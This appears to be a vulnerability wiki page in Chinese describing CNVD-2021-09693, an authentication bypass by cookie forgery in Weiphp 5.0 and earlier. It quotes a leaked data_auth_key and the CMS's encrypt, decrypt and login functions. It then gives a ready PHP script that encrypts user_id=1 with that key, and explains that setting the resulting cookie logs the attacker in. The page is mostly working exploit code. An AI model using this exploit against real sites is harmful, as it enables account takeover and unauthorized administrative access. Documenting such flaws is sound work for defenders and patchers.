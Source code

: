 <languages  />

漏洞影响
--------

    Weiphp <= 5.0

漏洞利用
--------

首先需要得到数据库配置文件中的`data_auth_key`密钥

![](Weiphp-15.png "Weiphp-15.png")

得到这个配置文件可参考[%BB%B6%E4%BB%BB%E6%84%8F%E8%AE%80%E5%8F%96%E6%BC%8F%E6%B4%9E CNVD-2020-68596 Weiphp5.0 前台文件任意读取漏洞](https://www.pwnwiki.org/index.php?title=CNVD-2020-68596_Weiphp5.0_%E5%89%8D%E5%8F%B0%E6%96%87%E4)

    'data_auth_key' => '+0SeoAC#YR,Jm&c?[PhUg9u;:Drd8Fj4q|XOkx*T'

全局查找使用了这个密钥的地方:

![](Weiphp-16.png "Weiphp-16.png")

找到了跟据这个密钥的加密方法和解密方法

加密方法 `think_encrypt`


    function think_encrypt($data, $key = '', $expire = 0)
    {
        $key = md5(empty($key) ? config('database.data_auth_key') : $key);

        $data = base64_encode($data);
        $x = 0;
        $len = strlen($data);
        $l = strlen($key);
        $char = '';

        for ($i = 0; $i < $len; $i++) {
            if ($x == $l) {
                $x = 0;
            }

            $char .= substr($key, $x, 1);
            $x++;
        }

        $str = sprintf('%010d', $expire ? $expire + time() : 0);

        for ($i = 0; $i < $len; $i++) {
            $str .= chr(ord(substr($data, $i, 1)) + (ord(substr($char, $i, 1))) % 256);
        }
        return str_replace(array(
            '+',
            '/',
            '='
        ), array(
            '-',
            '_',
            ''
        ), base64_encode($str));
    }

<div lang="chinese" dir="ltr" class="mw-content-ltr">
解密方法 `think_decrypt`

</div>
    function think_decrypt($data, $key = '')
    {
        $key = md5(empty($key) ? config('database.data_auth_key') : $key);
        $data = str_replace(array(
            '-',
            '_'
        ), array(
            '+',
            '/'
        ), $data);
        $mod4 = strlen($data) % 4;
        if ($mod4) {
            $data .= substr('====', $mod4);
        }
        $data = base64_decode($data);
        $expire = substr($data, 0, 10);
        $data = substr($data, 10);

        if ($expire > 0 && $expire < time()) {
            return '';
        }
        $x = 0;
        $len = strlen($data);
        $l = strlen($key);
        $char = $str = '';

        for ($i = 0; $i < $len; $i++) {
            if ($x == $l) {
                $x = 0;
            }

            $char .= substr($key, $x, 1);
            $x++;
        }

        for ($i = 0; $i < $len; $i++) {
            if (ord(substr($data, $i, 1)) < ord(substr($char, $i, 1))) {
                $str .= chr((ord(substr($data, $i, 1)) + 256) - ord(substr($char, $i, 1)));
            } else {
                $str .= chr(ord(substr($data, $i, 1)) - ord(substr($char, $i, 1)));
            }
        }
        return base64_decode($str);
    }

<div lang="chinese" dir="ltr" class="mw-content-ltr">
在文件 `application\common.php` 中含有使用解密方法的代碼，用於做身份驗證

</div>
    function is_login()
    {
        $user = session('user_auth');
        if (empty($user)) {
            $cookie_uid = cookie('user_id');
            if (!empty($cookie_uid)) {
                $uid = think_decrypt($cookie_uid);
                $userinfo = getUserInfo($uid);
                D('common/User')->autoLogin($userinfo);

                $user = session('user_auth');
            }
        }
        if (empty($user)) {
            return 0;
        } else {
            return session('user_auth_sign') == data_auth_sign($user) ? $user['uid'] : 0;
        }
    }

<div lang="chinese" dir="ltr" class="mw-content-ltr">
根據這裡得到的代碼，可以知道當user_Id=1時,會解密密鑰後判斷是否正確，如果正確則可以登錄系統

</div>
<div lang="chinese" dir="ltr" class="mw-content-ltr">
我們在本地使用加密代碼加密user_id=1得到的cookie則可以登錄系統

</div>
    <?php
    show_source(__FILE__);
    function think_encrypt($data, $key = '', $expire = 0)
    {
        $key = '+0SeoAC#YR,Jm&c?[PhUg9u;:Drd8Fj4q|XOkx*T';
        $key = md5($key);

        $data = base64_encode($data);
        $x = 0;
        $len = strlen($data);
        $l = strlen($key);
        $char = '';

        for ($i = 0; $i < $len; $i++) {
            if ($x == $l) {
                $x = 0;
            }

            $char .= substr($key, $x, 1);
            $x++;
        }

        $str = sprintf('%010d', $expire ? $expire + time() : 0);

        for ($i = 0; $i < $len; $i++) {
            $str .= chr(ord(substr($data, $i, 1)) + (ord(substr($char, $i, 1))) % 256);
        }
        return str_replace(array(
            '+',
            '/',
            '='
        ), array(
            '-',
            '_',
            ''
        ), base64_encode($str));
    }

    echo 'user_id = ' . think_encrypt($_GET['user_id']);
    ?>

<div lang="chinese" dir="ltr" class="mw-content-ltr">
添加`cookie: user_id=xxxxxxxx`即可成功登錄

</div>
![](Weiphp-18.png "Weiphp-18.png")

<div lang="chinese" dir="ltr" class="mw-content-ltr">
參考
----

</div>
<http://wiki.peiqi.tech/PeiQi_Wiki/CMS%E6%BC%8F%E6%B4%9E/Weiphp/Weiphp5.0%20%E4%BB%BB%E6%84%8F%E7%94%A8%E6%88%B7Cookie%E4%BC%AA%E9%80%A0%20CNVD-2021-09693.html>